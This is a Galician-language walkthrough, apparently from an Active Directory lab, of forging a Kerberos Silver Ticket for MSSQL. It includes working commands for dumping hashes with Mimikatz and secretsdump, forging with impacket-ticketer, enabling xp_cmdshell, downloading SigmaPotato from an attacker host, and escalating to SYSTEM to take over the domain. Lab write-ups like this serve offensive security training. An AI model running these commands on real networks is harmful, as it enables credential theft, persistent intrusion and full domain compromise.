


Vector de Ataque: Silver Ticket (Persistencia en Servizos)
Fase: 5. Persistencia
Requisitos: Hash NTLM da conta de servizo (svc_sql) e o SID do dominio.
Descrición
Un Silver Ticket é un TGS (Ticket Granting Service) falsificado. A diferenza do Golden Ticket (que require o hash de krbtgt e dá acceso a todo), o Silver Ticket só require o hash da conta que executa un servizo e dá acceso de administrador só a ese servizo.
Vantaxes
- Sigilo: Non require comunicación co DC (KDC), polo que é máis silencioso e difícil de detectar.
- Persistencia sobre o usuario suplantado: O Silver Ticket segue funcionando mesmo se cambia o contrasinal do usuario suplantado (por exemplo, Administrador). Isto débese a que o ticket non usa o hash deste usuario para ser xerado nin validado.
- Suplantación total: Permite acceder ao servizo como calquera usuario (incluído Administrador) sen coñecer o seu contrasinal real, sempre que o servizo acepte o ticket.
- Duración prolongada: O ticket falsificado pode configurarse cunha validez de ata 10 anos por defecto, proporcionando persistencia de longo prazo sobre ese servizo.
Desvantaxes
- Ámbito moi limitado: Só proporciona acceso ao servizo concreto para o que se falsifica o ticket (MSSQL, CIFS, HTTP...), non ao dominio completo.
- Sen acceso global nin privilexios amplos: Non proporciona acceso completo ao dominio. Non permite movemento lateral ilimitado nin acceso ao KDC. A diferenza dun Golden Ticket, non converte ao atacante en “amo do dominio”, senón só do servizo comprometido.
- Dependencia do hash da conta de servizo: O Silver Ticket só é válido mentres o hash NTLM da conta de servizo asociada ao SPN (por exemplo,
svc_sql) non cambie. Ese hash é o que se utiliza para asinar o ticket, polo que un cambio no contrasinal desa conta invalida o Silver Ticket de inmediato.
Explicación Visual do Ataque

O diagrama mostra a diferenza clave entre Kerberos normal (que require 4 intercambios co KDC) e Silver Ticket (que omite completamente o KDC).
Diagrama de ataque

Procedemento Paso a Paso
Paso 1: Obtención do Hash NTLM da Conta de Servizo
Necesitamos o hash NTLM do usuario svc_sql que executa o servizo MSSQL.
Para conseguir o NTLM hash (tamén chamado RC4 Key no contexto de Kerberos) necesario para impacket-ticketer, temos varias opcións dependendo do nivel de acceso que teñamos no dominio ou dos ataques que xa teñamos realizados.
Opción 1: Credenciais de Administrador (Secretsdump)
Se xa temos comprometido un Administrador de Dominio (ver ATAQUE_LLMNR_RESPONDER) ou un usuario con privilexios de replicación como brais.t co SeBackupPrivilege explotado para ler o NTDS.dit (ver ATAQUE_SEBACKUP), podemos extraer todos os hashes.
1A. Con credenciais de admin:
1B. Con NTDS.dit extraído (vía SeBackupPrivilege):
Buscar na saída:
Buscar na saída a conta que corre o servizo:
- Se o SQL Server corre como LocalSystem, busca o hash da conta de máquina: VULN-DC-01$
- Se corre como un usuario de servizo (ex:
svc_sql), buscar o hash de svc_sql
O formato será: usuario:id:lmhash:nthash:::. O que interesa é a cuarta columna (o nthash).
...
svc_sql:1106:aad3b435b51404eeaad3b435b51404ee:ad2896ecfb9b443720bab09bb020f852:::
...
VULN-DC-01$:1000:aad3b435b51404eeaad3b435b51404ee:be8e49b2cb97d0c6c8430097f477f989:::
...
O que nos interesa é a 4ª columna (nthash): ad2896ecfb9b443720bab09bb020f852
Nota: Se o servizo corre como LocalSystem/NETWORK SERVICE, usa o hash da conta de máquina:
VULN-DC-01$
Opción 2: Conversión desde Contrasinal en Texto Claro
Podemos empregar impacket-ticketer, pero esta ferramenta pide o hash, non o contrasinal. Mais se conseguimos crackear o contrasinal do usuario svc_sql (SvcPassw0rdKerb!), convertimos o contrasinal a hash cun "one-liner" de Python:
python3 -c 'import hashlib,binascii; print(binascii.hexlify(hashlib.new("md4", "SvcPassw0rdKerb!".encode("utf-16le")).digest()).decode())'
Resultado:
O resultado desa liña é o hash que debemos poñer no flag -nthash.
Opción 3: Dump de LSASS con Mimikatz
Se conseguimos acceso como Administrador local ou SYSTEM na máquina onde corre o servizo (neste caso, o propio DC 192.168.56.100), podemos usar Mimikatz para extraer os hashes da memoria LSASS:
Na máquina atacante:
Na máquina vítima (vía evil-winrm):
Descargamos mimikatz.exe:
Executamos mimikatz:
*Evil-WinRM* PS C:\Users\Administrador\Documents> .\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
Buscar na saída:
Authentication Id : 0 ; 684641 (00000000:000a7261)
Session : Service from 0
User Name : svc_sql
Domain : VULN-HE
Logon Server : VULN-DC-01
Logon Time : 10/12/2025 20:26:22
SID : S-1-5-21-1409906420-806768563-109815720-1106
msv :
[00000003] Primary
* Username : svc_sql
* Domain : VULN-HE
* NTLM : ad2896ecfb9b443720bab09bb020f852
* SHA1 : f9675a1efe71400b598f76f54dc43f5d69572be8
wdigest :
* Username : svc_sql
* Domain : VULN-HE
* Password : SvcPassw0rdKerb!
Resumo
- Se o servizo MSSQL está correndo baixo a conta
svc_sqle temos o contrasinal, executamos o paso 1 (extraer do NTDS) ou o paso 2 (converter a hash) - Se o servizo corre como SYSTEM, necesitamos obrigatoriamente facer o paso 1 ou 3 para obter o hash da conta de máquina
VULN-DC-01$
Paso 2: Obtención do SID do Dominio
Necesitamos o identificador único do dominio. Podemos obtelo mediante mimikatz ou cun usuario básico (como brais.t).
Resultado:
Paso 3: Sincronización Temporal (Clock Skew)
Información sobre Kerberos Clock Skew
Que é Clock Skew?
Clock Skew refírese á diferenza de tempo entre o cliente e o servidor Kerberos (DC).
Límite por defecto:
- Máximo 5 minutos de diferenza
- Configurable en
MaxClockSkew(Group Policy)
Por que é importante?
- Prevención de replay attacks
- Os tickets Kerberos teñen timestamps
- Se a hora é moi diferente, os tickets son invalidados
Erro común:
Solución:
Debemos revisar a sincronización temporal co servidor de dominio para poder obter os tickets kerberos. Non debe existir un desfase de ±5 minutos.
CRÍTICO: Kerberos require sincronización temporal entre cliente e servidor (±5 minutos máximo)
Instalar ntpdate:
Verificar e sincronizar:
Saída esperada:
Wed Dec 10 11:16:59 AM UTC 2025
2025-12-10 10:03:58.174152 (+0000) -4381.436584 +/- 0.000433 192.168.56.100 s1 no-leap
CLOCK: time stepped by -4381.436584
Wed Dec 10 10:03:58 AM UTC 2025
Paso 4: Forxado do Silver Ticket
Usamos impacket-ticketer para crear un ticket que diga "Son o Administrador" válido para o servizo MSSQL.
# Engadir entrada DNS (se non existe)
echo '192.168.56.100 VULN-DC-01.vuln-he.lab VULN-HE.LAB' | sudo tee -a /etc/hosts
sudo ntpdate -u 192.168.56.100
impacket-ticketer \
-nthash ad2896ecfb9b443720bab09bb020f852 \
-domain-sid S-1-5-21-1409906420-806768563-109815720 \
-domain VULN-HE.LAB \
-spn "MSSQLSvc/VULN-DC-01.vuln-he.lab:1433" \
Administrador
Parámetros:
-nthash: Hash NTLM desvc_sql-domain-sid: SID do dominio-domain: Nome DNS do dominio-spn: Service Principal Name exacto do servizo (debe coincidir EXACTAMENTE)Administrador: Usuario que queremos suplantar
Resultado: Créase un ficheiro Administrador.ccache.
[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for VULN-HE.LAB/Administrador
[*] PAC_LOGON_INFO
[*] PAC_CLIENT_INFO_TYPE
[*] EncTicketPart
[*] EncTGSRepPart
[*] Signing/Encrypting final ticket
[*] Saving ticket in Administrador.ccache
Paso 5: Verificación do Ticket
Instalar ferramentas Kerberos:
Comprobamos o contido do ticket obtido:
Inspeccionar o ticket:
Saída esperada:
Ticket cache: FILE:Administrador.ccache
Default principal: Administrador@VULN-HE.LAB
Valid starting Expires Service principal
12/10/2025 10:12:41 12/08/2035 10:12:41 MSSQLSvc/VULN-DC-01.vuln-he.lab:1433@VULN-HE.LAB
renew until 12/08/2035 10:12:41
Validez de 10 anos! (2025 → 2035)
Paso 6: Uso do Ticket e Acceso a SQL Server
Cargamos o ticket na variable de entorno e conectamos sen contrasinal.
Configurar entorno:
# Cargar o ticket
export KRB5CCNAME=Administrador.ccache
# Engadir entrada DNS (se non existe)
# echo '192.168.56.100 VULN-DC-01.vuln-he.lab VULN-HE.LAB' | sudo tee -a /etc/hosts
Conectar a SQL Server:
sudo ntpdate -u 192.168.56.100
impacket-mssqlclient \
-k -no-pass \
VULN-HE.LAB/Administrador@VULN-DC-01.vuln-he.lab
Parámetros:
-k: Usar autenticación Kerberos (o noso ticket falsificado)-no-pass: Non solicitar contrasinal
Conexión exitosa:
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] INFO(VULN-DC-01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[!] Press help for extra shell commands
SQL (VULN-HE\Administrador dbo@master)>
Paso 7: Activación de xp_cmdshell
Dentro de MSSQL
Agora somos administradores da base de datos. Podemos activar xp_cmdshell para executar comandos no sistema operativo.
Verificar usuario actual:
Resultado:
Activar xp_cmdshell:
Método manual: Método estándar e fiable. Este método sempre funciona (asumindo que tes permisos de sysadmin) porque utiliza os procedementos almacenados do sistema de SQL Server.
SQL> exec sp_configure 'show advanced options', 1;
SQL> reconfigure;
SQL> exec sp_configure 'xp_cmdshell', 1;
SQL> reconfigure;
Método rápido
Só funciona se estás usando unha ferramenta, como Impacket's mssqlclient.py, que implemente o comando helper enable_xp_cmdshell, xa que NON é un comando nativo de SQL Server.
Ademais, xp_cmdshell está deshabilitado por defecto en SQL Server por razóns de seguridade, e necesitas permisos de sysadmin para habilitalo.
Probar execución de comandos:
Saída:
Nota: Os comandos execútanse baixo o contexto de
svc_sql, NON como Administrador. Se o servizo corre comoLocalSystem, isto danos control total do servidor.
Paso 8: Comprobación de Privilexios
Privilexios relevantes detectados:
Nombre de privilegio Descripción Estado
========================================= ==================================================== =============
SeAssignPrimaryTokenPrivilege Reemplazar un símbolo de nivel de proceso Deshabilitado
SeImpersonatePrivilege Suplantar a un cliente tras la autenticación Habilitada
SeManageVolumePrivilege Realizar tareas de mantenimiento del volumen Habilitada
SeCreateGlobalPrivilege Crear objetos globales Habilitada
SeImpersonatePrivilege está HABILITADO → Podemos realizar un ataque Potato
Explotación: SeImpersonatePrivilege vía SQL Server
Descrición
Agora xa podemos realizar o procedemento descrito no ficheiro ATAQUE_SEIMPERSONATE, pero adaptado ao novo escenario, onde:
- Non accedemos como
maria.g, senón comosvc_sqlvía SQL Server (xp_cmdshell) - O ataque faise desde xp_cmdshell, non desde WinRM
- O obxectivo é executar SigmaPotato en SYSTEM tal como fai o documento orixinal, pero adaptado a este contexto
Fase aplicada: 4. Post-Explotación
Usuario inicial: svc_sql (a través de Silver Ticket → SQL Server → xp_cmdshell)
Obxectivo Final: NT AUTHORITY\SYSTEM
O servizo SQL Server executa o proceso MSSQL$SQLEXPRESS baixo a conta svc_sql, que posúe o privilexio SeImpersonatePrivilege → HABILITADO. Isto permite realizar un ataque Potato para elevar privilexios a SYSTEM.
En lugar de tentar obter unha shell (ás veces inestable desde xp_cmdshell), utilizamos SigmaPotato para lanzar un comando directamente como SYSTEM.
Paso 9: Descarga de SigmaPotato
Na máquina atacante:
wget https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe
python3 -m http.server 80
Na máquina vítima (vía xp_cmdshell):
Crear directorio temporal:
Descargar SigmaPotato:
SQL> exec xp_cmdshell 'powershell -command "Invoke-WebRequest -Uri http://192.168.56.113/SigmaPotato.exe -OutFile C:\Temp\sp.exe"';
Verificar descarga:
Paso 10: Execución do Ataque (obtención de SYSTEM)
Igual que no documento orixinal, lanzamos un comando arbitrario como SYSTEM, por exemplo, cambiar o contrasinal do Administrador:
Saída esperada:
SigmaPotato indica que conseguiu token SYSTEM e o comando execútase correctamente baixo SYSTEM:
output
---------------------------------------------------------
[+] Starting Pipe Server...
[+] Created Pipe Name: \\.\pipe\SigmaPotato\pipe\epmapper
[+] Pipe Connected!
[+] Impersonated Client: NT AUTHORITY\Servicio de red
[+] Searching for System Token...
[+] PID: 852 | Token: 0x816 | User: NT AUTHORITY\SYSTEM
[+] Found System Token: True
[+] Duplicating Token...
[+] New Token Handle: 832
[+] Current Command Length: 32 characters
[+] Creating Process via 'CreateProcessAsUserW'
[+] Process Started with PID: 3068
NULL
[+] Process Output:
Se ha completado el comando correctamente.
NULL
NULL
NULL
O comando executouse correctamente como NT AUTHORITY\SYSTEM
Paso 11: Verificación - Acceso como Administrador
Despois do cambio:
Conectar vía WinRM co novo contrasinal:
Unha vez dentro:
Verificar identidade:
*Evil-WinRM* PS C:\Users\Administrador\Documents> whoami
vuln-he\administrador
*Evil-WinRM* PS C:\Users\Administrador\Documents> whoami /groups | findstr "S-1-5-32-544"
VULN-HE\Administradores del dominio
Debe indicar:
Control total do dominio conseguido!
Resumo
Duración e Validez do Ticket
Un Silver Ticket:
1. É un TGS falsificado para un servizo concreto (por exemplo: MSSQLSvc/DC:1433), que permite acceso persistente limitado exclusivamente a ese servizo durante anos.
2. Só depende do hash NTLM da conta de servizo (ex.: svc_sql) e non require contactar co KDC.
Puntos clave:
- Validez por defecto: 10 anos (2025 → 2035)
- O ticket xerado con
impacket-ticketerten, por defecto, validez de 10 anos - SQL Server non comproba o ticket co KDC, só verifica a firma baseada no NTLM da conta de servizo
- Verificación: SQL Server NON comproba o ticket co KDC, só verifica a firma baseada no hash NTLM de
svc_sql
O Ticket Permanece Válido Se:
- Se o hash de
svc_sqlnon cambia, o ticket seguirá sendo válido durante toda a súa vida útil - O SPN do servizo (
MSSQLSvc/...) non se modifica - O usuario finxido polo Silver Ticket existe dentro de SQL como login válido
- O SPN coincide (
MSSQLSvc/NOME:1433)
O Ticket Inválídase Se:
- Se cambia o contrasinal de
svc_sql(→ cambia o NTLM hash) - Elimínase ou modifícase o SPN asociado ao servizo
- Desactívase ou elimínase o usuario suplantado
Conseguimos:
- Silver Ticket → acceso a SQL
- xp_cmdshell → execución remota como
svc_sql - SigmaPotato → SYSTEM directo
- WinRM como Administrador → Control total do dominio
| Paso | Acción | Resultado |
|---|---|---|
| 1 | Obtención do hash NTLM de svc_sql |
ad2896ecfb9b443720bab09bb020f852 |
| 2 | Obtención do SID do dominio | S-1-5-21-1409906420-806768563-109815720 |
| 3 | Sincronización temporal (Clock Skew) | Diferenza < 5 minutos |
| 4 | Forxado de Silver Ticket | Administrador.ccache (válido 10 anos) |
| 5 | Verificación do ticket | Ticket válido 2025-2035 |
| 6 | Acceso a SQL Server con Kerberos | Conexión como VULN-HE\Administrador |
| 7 | Activación de xp_cmdshell |
Execución remota como svc_sql |
| 8 | Comprobación de privilexios | SeImpersonatePrivilege habilitado |
| 9 | Descarga de SigmaPotato | Ferramenta en C:\Temp\sp.exe |
| 10 | Explotación de SeImpersonatePrivilege |
Escalada a NT AUTHORITY\SYSTEM |
| 11 | Cambio de contrasinal do Administrador | Control total do dominio |